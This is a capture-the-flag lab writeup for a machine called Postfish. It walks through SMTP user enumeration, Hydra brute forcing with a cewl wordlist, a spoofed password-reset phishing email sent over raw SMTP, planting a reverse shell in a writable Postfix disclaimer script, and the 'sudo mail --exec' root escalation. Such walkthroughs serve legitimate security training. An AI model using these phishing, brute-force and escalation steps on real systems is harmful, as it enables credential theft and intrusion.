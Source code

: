 ```yaml
---
description: Pg Practice Postfish writeup
---
```


# Postfish

## Nmap

```
sudo nmap 192.168.211.137 -p- -sS -sV -Pn

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp     Postfix smtpd
80/tcp  open  http     Apache httpd 2.4.41 ((Ubuntu))
110/tcp open  pop3     Dovecot pop3d
143/tcp open  imap     Dovecot imapd (Ubuntu)
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp open  ssl/pop3 Dovecot pop3d
Service Info: Host:  postfish.off; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Heading straight into SMTP I ran `smtp-user-enum.pl` with the syntax below:

```
sudo perl smtp-user-enum.pl -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t 192.168.211.137 
```

![](<../../../.gitbook/assets/image (1294).png>)

Looks like we have some non default emails shown above that are listed below:

```
hr
sales
```

Checking our port 80 from here we find the web page attempts to direct us to http://postfish.off. We can add the IP and domain name into `/etc/hosts` to get this working. Once completed the web pages should load correctly.

![](<../../../.gitbook/assets/image (1295) (1).png>)

Checking out the link for 'Our Team' shows further departments and users.

![](<../../../.gitbook/assets/image (1296).png>)

We can run the users against smtp-user-enum to try and identify further usernames. Companies generally use naming conventions so we will either try and guess it or use a tool to help us identify.

Download the following python script: [https://raw.githubusercontent.com/jseidl/usernamer/master/usernamer.py](https://raw.githubusercontent.com/jseidl/usernamer/master/usernamer.py)

We can then run the script against each user and this will generate variations of the username.

```
python2 exploit.py -n 'USER'  
```

![](<../../../.gitbook/assets/image (1298) (1).png>)

Repeat for each user and save the results into a text file. We can then run the variations against `smtp-user-enum` again.

```
perl smtp-user-enum.pl -M VRFY -U /home/kali/Desktop/known-users -t 192.168.211.137 
```

![](<../../../.gitbook/assets/image (1299).png>)

At this point I tried to brute force the various accounts we have over IMAP and POP3. I was able to get a valid result with Hydra for `sales:sales`.

The password list was generated with `cewl` from the [http://postfish.off/team.html](http://postfish.off/team.html) web page.

```
cewl -d 5 -m 3 http://postfish.off/team.html -w /home/kali/Desktop/cewl.txt
```

I then run our known users names with the output generated from `cewl` against `Hydra`.

![](<../../../.gitbook/assets/image (1300).png>)

I then logged into the sales account with telnet on port 110 for POP3 and was able to retrieve a singular email message.

![](<../../../.gitbook/assets/image (1301).png>)

The email indicates the IT team (it@postfish.off) will be sending password reset links to the sales team. From here we can potentially spear phish someone. Looking at [http://postfish.off/team.html](http://postfish.off/team.html) again shows that Brian Moore is the sales manager. We already know his email address from earlier as well from our smtp enumeration.

First set up a `netcat` listener on port 80.

```
sudo nc -lvp 80
```

Next connect to SMTP using `netcat` then do the following to compose an email from it@postfish.off to brian.moore@postfish.off.

```
nc -v postfish.off 25
```

```
helo test
MAIL FROM: it@postfish.off
RCPT TO: brian.moore@postfish.off
DATA

Subject: Password reset process

Hi Brian,

Please follow this link to reset your password: http://192.168.49.211/                              

Regards,

.

QUIT
```

![](<../../../.gitbook/assets/image (1302) (1).png>)

After a short while Brian will send us details regarding his current login to our `netcat` listener.

![](<../../../.gitbook/assets/image (1303).png>)

We now have the password `EternaLSunshinE` We can then login to `SSH`.

```
ssh brian.more@192.168.211.137
```

![](<../../../.gitbook/assets/image (1304).png>)

I then transferred `linpeas` over to the target machine. After running we identify being a member of the 'filter' group which is a non default group. We also find /etc/postfix/disclaimer as being of interest.

![](<../../../.gitbook/assets/image (1305) (1).png>)

![](<../../../.gitbook/assets/image (1306).png>)

A Google search on 'postfix disclaimer' results in the following being the first result on Google: [https://www.howtoforge.com/how-to-automatically-add-a-disclaimer-to-outgoing-emails-with-altermime-postfix-on-debian-squeeze](https://www.howtoforge.com/how-to-automatically-add-a-disclaimer-to-outgoing-emails-with-altermime-postfix-on-debian-squeeze).

Looking through this it seems the admin on the box has followed the included steps to install and configure alterMIME to get disclaimers appended to emails.

![](<../../../.gitbook/assets/image (1307).png>)

Reading through the article essentially we see that for any emails included in the file `/etc/postfix/disclaimer_addresses`. When any of these addresses send or recieve an email the following file gets executed `/etc/postfix/disclaimer`. The file takes the contents of `/etc/postfix/disclaimer.txt` and appends it to the emails.

As we are a member the group 'filter' we can edit the script `/etc/postfix/disclaimer`. Using nano to edit the script I inserted a bash reverse shell to the top of the script.

![](<../../../.gitbook/assets/image (1308).png>)

Then like we did earlier I connected to SMTP with `netcat` and sent an email to trigger the shell.

```
helo test
MAIL FROM: it@postfish.off
RCPT TO: brian.moore@postfish.off
DATA

Shell please

.

QUIT
```

![](<../../../.gitbook/assets/image (1309) (1).png>)

After doing so we should receive a shell.

![](<../../../.gitbook/assets/image (1310).png>)

From here I checked sudo permissions with `sudo -l` and found that we can run the `mail` binary as any user without a password.

![](<../../../.gitbook/assets/image (1311).png>)

Referring to [GTFOBins](https://gtfobins.github.io/gtfobins/mail/) we can use this to gain a root shell.

![](<../../../.gitbook/assets/image (1312).png>)

```
sudo mail --exec='!/bin/bash'
```

We then gain a root shell.

![](<../../../.gitbook/assets/image (1313).png>)
